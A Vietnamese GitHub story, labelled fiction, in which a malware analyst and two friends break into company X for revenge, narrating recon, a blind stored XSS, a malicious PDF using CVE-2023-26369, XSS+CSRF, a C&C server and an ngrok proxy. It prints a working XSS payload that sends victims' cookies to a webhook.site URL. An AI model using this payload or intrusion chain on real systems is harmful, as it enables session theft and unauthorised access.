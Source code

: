 # Tôi đã chiếm quyền điều hành cả một hệ thống mạng của một công ty X như thế nào.

## Lưu ý mọi nội dung dưới đây chỉ là hư cấu !

Bài viết sẽ đi xây dựng các lối tấn công thực tế các con đường khai thác APT.
Các kỹ thuật lỗ hổng sẽ được in đậm để các bạn có thể research.
cre: VHAE và những giấc mơ ;D

# Chương 1: Mở bài

### Phần 1: Bi kịch bắt đầu.

Chuyện bắt đầu cách đây 1 năm khi tôi là Vũ với công việc là phân tích mã độc. Bi kịch ập đến tôi ngay sau ngày sinh nhật tôi, bố tôi và mẹ tôi đều bị mất việc ở công ty X, công ty đó đã giải thích là do thu nhỏ quy mô kinh doanh nên phải cắt bớt nhân sự. Đêm đó tôi hơi buồn và ngồi research về công ty X và thấy công ty đó vẫn đang trong quá trình phát triển và quy mô cũng lớn nhưng lại chấm dứt hợp đồng với gia đình tôi, tôi dành ra nhiều ngày để nghiên cứu thì phát hiện ra sự thật là do bố mẹ tôi đã biết điều gì đó bí ẩn ở công ty và họ đã sa thải cả hai để giữ bí mật đó. Ngày đó tôi đã thực sự khó hiểu và bắt đầu đi tìm sự thật.

### Phần 2: Bắt tay hành động.

Câu truyện bắt đầu khi tôi liên hệ lại với 2 người bạn ở trường cũ là Hoàng ( Chuyên gia bảo mật website ) và Anh ( Một blackhat ) chúng tôi bắt đầu cuộc tấn công với công ty X và đặt tên nhóm là XTAE.

X - eXploit 
T - Technology 
A - Access 
E - Ethically

st1 : Chúng tôi đã bắt đầu tìm kiếm các thông tin về công ty X bao gồm nhân viên, quản lý, tổng giám đốc, hồ sơ tài chính và các báo cáo liên quan....

st2 : Sau khi đã có thông tin base chúng tôi bắt đầu rà quét thu thập các địa chỉ ip port, web và subdomain tại nhiều nơi như Shodan...

st3 : Chúng tôi phân công nhau tìm kiếm các lỗ hổng trên các thông tin thu thập được hầu hết chỉ là các lỗi dos và client.

Đã 3 ngày trôi qua và webhook của Vũ đã trả về dữ liệu về lỗ hổng XSS của một trang web tuyển dụng của công ty X.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/044db157-83fc-4213-a7c2-a8d532b33fda)



### Phần 3: Manh mối đầu tiên.

Với dữ liệu đổ về từ XSS Hoàng đã chuẩn đoán đây là lỗ hổng blind stored xss với 

payload xss ban đầu của Vũ  : 
```
'"><img src=x onerror='window.location.replace("https://webhook.site/0634543a?data="+document.cookie)'>
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/43e2b79e-58a0-4129-9919-2752f7ffc7a7)

Với dữ liệu đồ về có lẽ ta đã thấy cookie của người dùng, chúng tôi nhanh chóng tiến hành thêm mã cookie xác thực vào trình duyệt để truy cập vào tài khoản kiểm duyệt đó nhưng không có gì xảy ra.
Tại sao ? đó là một câu nói xảy ra trong đầu 3 chúng tôi, liệu có phải các dữ liệu xác thực đã được đính `cờ httponly` ? 

Không trước đó Vũ đã kiểm tra trang web và nó xác thực người dùng qua TOKEN và không có cờ `httponly` vậy tại sao chúng tôi không truy cập được tài khoản đó qua cookie đã thu thập được.

Để làm rõ việc này Hoàng đã xây dựng lại mã khai thác xss để chúng tôi có thể thu thập được nhiều thông tin hơn ngoài việc thu thập cookie bằng document.cookie Hoàng đã thêm một vài trường vào payload cũ của Vũ

```
document.documentElement.outerHTML để thu thập toàn hộ html trang web
window.location.href để thu thập url trang web đang truy cập
```

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2e8c8f00-d7dd-421e-afa4-058a4665a40c)


Sau khi dữ liệu được trả về chúng tôi đã biết nguyên nhân từ url 172.50.24.21 là một ip private vậy chúng tôi đoán trang web tuyendung.congtyx.com sẽ nhận dữ liệu về một máy chủ và các nhân sự sẽ truy cập vào một webserver nội bộ qua mạng công ty hoặc vpn để duyệt hồ sơ các thành viên - Điều này thực sự thú vị vì nó sẽ làm tăng tính bảo mật của website và tránh để lộ thông tin ra bên ngoài môi trường internet cơ bản sơ đồ sẽ như sau.

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/fb863d78-e281-4454-ab57-44959f0b9512)

Vậy không có quyền truy cập vào private vậy thì chúng tôi lấy thêm được dữ liệu gì từ lỗ hổng này. Kiểm tra mã html thu thập được chúng tôi biết các ứng viên sẽ nộp hồ sơ dạng pdf và nếu được duyệt hồ sơ sẽ được gửi lên cấp trên điều đặc biệt là các đường dẫn này ko preview mà sẽ tải thẳng về máy cá nhân và xem trên đó( tôi đã thử các lỗ hổng File upload vulnerabilities nhưng server chỉ cho lưu file pdf và lưu trong cdn) .Ý tưởng ban đầu của chúng tôi sẽ ghi đè mã html khi nhân sự tải xuống file pdf của tôi thay vì đó là pdf trên webserver thì đó là mội loại virut tôi cài cắm vào, tôi phân chia cho Anh thiết kế `máy chủ c&c` để quản lý các PC mà chúng tôi đã takeover.

1 ngày, 2 ngày, 1 tuần, 2 tuần vẫn chưa thấy phải hồi gì chúng tôi đã có rất nhiều câu hỏi: 

Liệu nhân sự đó không mở file pdf virut của tôi ? 

Các máy tính đã có diệt virut mới và xoá file của tôi ?

Code của tôi không hoạt động ?

Máy chủ cá nhân không cho phép tải các file khác ? 


Trong nhiều ngày chúng tôi đã osint nhiều thông tin về công ty và biết rất nhiều người dùng Adobe Acrobat tôi liền liên hệ cho Anh để tìm hiểu thêm về các lỗ hổng zeroday về một phần mềm này với một dân ngầm như Anh đã cho tôi ngay POC mới nhất về `CVE-2023-26369` tôi tiến hành xây dựng mã khai thác theo cve mà Anh cung cấp cùng lúc đó Hoàng kết hợp lỗi `XSS và CSRF` để tự tiến hành tự động xác nhận kiểm duyệt hồ sơ của tôi lên cấp trên để có thể lây lan được nhiều ngừoi hơn.


### Phần 3: Tia sáng cuối con đường:

Sau nhiều ngày chúng tôi đã thử nhiều cách và bùm có một pc kết nối đến chúng tôi và có chính là nhân viên thungoc.

Chúng tôi tiến hành xây dựng một proxy ngrok cho phép chúng tôi truy cập trang web nội bộ ngoài internet và phân công nhiệm vụ Hoàng sẽ tiến hành tìm kiếm thêm các lỗ hổng trong web nội bộ, tôi và Anh sẽ thực hiện rà soát các dải mạng private và tìm cách khai thác chúng....

![image](https://github.com/VHAE04/Story-in-dream/assets/89138607/2806ebd9-f64a-4dbf-aa0e-2c873ab0b52b)


hết chương 1:
các keyword : 
- CVE-2023-26369
- XSS 
- CSRF
- Máy chủ c&c
- Ngrok proxy
- osint
- shodan
- File upload vulnerabilities
- cdn

Nếu các bạn thích về chủ đề này hay thì mình sẽ làm típ hehe ;()

Bài viết sẽ có nhiều lỗi sai và nhiều chi tiết thiếu sót bạn hãy góp ý bằng cách cmt phía dưới cảm ơn bạn.
